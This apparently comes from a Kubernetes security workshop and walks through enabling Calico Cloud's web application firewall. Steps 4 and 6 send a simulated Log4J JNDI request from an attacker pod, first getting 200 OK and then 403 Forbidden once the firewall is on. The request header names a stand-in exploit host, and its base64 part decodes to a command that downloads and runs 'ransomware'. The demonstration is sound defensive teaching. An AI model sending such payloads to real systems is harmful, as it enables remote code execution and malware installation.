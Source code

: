 Configuring the Workload-Centric WAF
==============

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

## Step 1 - Set up the WAF

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Remove the ```quarantine``` label from the attacker pod

   ``` bash
   kubectl label pod attacker quarantine-
   ```

3. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```kubectl exec attacker -it -- /bin/bash ```

   If you no longer have the attacker pod:

   ```kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash```  

4. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

You should get a response like this:

``` html
> GET / HTTP/1.1
> Host: vote.vote
> User-Agent: curl/8.0.1
> Accept: */*
> X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
> 
< HTTP/1.1 200 OK
< server: envoy
< date: Mon, 08 Jan 2024 23:25:22 GMT
< content-type: text/html; charset=utf-8
< content-length: 1294
< set-cookie: voter_id=9b62d5409a1658a; Path=/
< x-envoy-upstream-service-time: 9
< 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Cats vs Dogs!</title>
    <base href="/index.html">
    <meta name = "viewport" content = "width=device-width, initial-scale = 1.0">
    <meta name="keywords" content="docker-compose, docker, stack">
    <meta name="author" content="Tutum dev team">
    <link rel='stylesheet' href="/static/stylesheets/style.css" />
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.4.0/css/font-awesome.min.css">
  </head>
  <body>
    <div id="content-container">
      <div id="content-container-center">
        <h3>Cats vs Dogs!</h3>
        <form id="choice" name='form' method="POST" action="/">
          <button id="a" type="submit" name="vote" class="a" value="a">Cats</button>
          <button id="b" type="submit" name="vote" class="b" value="b">Dogs</button>
        </form>
        <div id="tip">
          (Tip: you can change your vote)
        </div>
        <div id="hostname">
          Processed by container ID vote-69dc45b49c-7htfc
        </div>
      </div>
    </div>
    <script src="http://code.jquery.com/jquery-latest.min.js" type="text/javascript"></script>
    <script src="//cdnjs.cloudflare.com/ajax/libs/jquery-cookie/1.4.1/jquery.cookie.js"></script>

    
  </body>
</html>* Connection #0 to host vote.vote left intact
```


5. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```bash
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

6. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
   'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
   'vote.vote'
   ```

   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

   ``` html
   > GET / HTTP/1.1
   > Host: vote.vote
   > User-Agent: curl/8.0.1
   > Accept: */*
   > X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
   > 
   < HTTP/1.1 403 Forbidden
   < date: Mon, 08 Jan 2024 23:27:03 GMT
   < server: envoy
   < content-length: 0
   < 
   * Connection #0 to host vote.vote left intact
   ```

---

[:arrow_left: Container Security and Calico Security Events](/mod/module-4-security-events.md)         <br>

[:arrow_right: Egress Gateway and Azure Firewall](/mod/module-6-egress-gateway-azure-firewall.md)   <br>
[:leftwards_arrow_with_hook: Back to Main](/README.md)  